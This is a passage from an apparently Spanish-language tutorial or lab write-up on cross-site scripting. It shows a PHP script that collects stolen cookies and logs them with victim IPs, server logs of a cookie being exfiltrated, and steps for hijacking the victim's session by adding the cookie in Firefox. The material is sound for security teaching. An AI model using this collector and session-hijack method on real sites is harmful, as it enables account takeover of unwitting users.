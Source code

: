 Escribimos este código en nuestro script.js local y lo servimos. 

Ahora con el script, el payload y el servidor php en escucha podemos ejecutar el XSS para recibir la cookie.

Si existen diferentes cookies podemos servir un script php como index.php en nuestro server con un contenido como:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Este script separá las cookies y las volcará en un fichero, de forma que si multiples usuarios ejecutan el XSS recibimos las cookies ordenadas.

```shell-session
10.10.10.10:52798 [200]: /script.js
10.10.10.10:52799 [200]: /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2
```

Eso serían las peticiones a script.js y al index junto con la cookie.

```shell-session
$ cat cookies.txt 
Victim IP: 10.10.10.1 | Cookie: cookie=f904f93c949d19d870911bf8b05fe7b2
```

Y esto el contenido del fichero creado por el script.

Por último, podemos utilizar esta cookie en la página login.php para acceder a la cuenta de la víctima. 
Para ello, una vez que navegamos al login, podemos pulsar Mayús+F9 en Firefox para mostrar la barra de almacenamiento en las herramientas de desarrollo. A continuación, podemos hacer clic en el botón + de la esquina superior derecha y añadir nuestra cookie, donde el nombre es la parte que precede al signo = y el valor es la parte que sigue al signo = de nuestra cookie robada.

[image](/assets/img/posts/XSS/20251022225517.png)

#### Ejemplo

Utilizamos el mismo payload para todos los campos solo que cambiamos el nombre del recurso que intenta pedir para averiguar de qué parámetro procede.

[image](/assets/img/posts/XSS/20251022230643.png)

En este caso vemos que el parámetro que nos ha permitido inyectar JS es picture;

[image](/assets/img/posts/XSS/20251022230722.png)
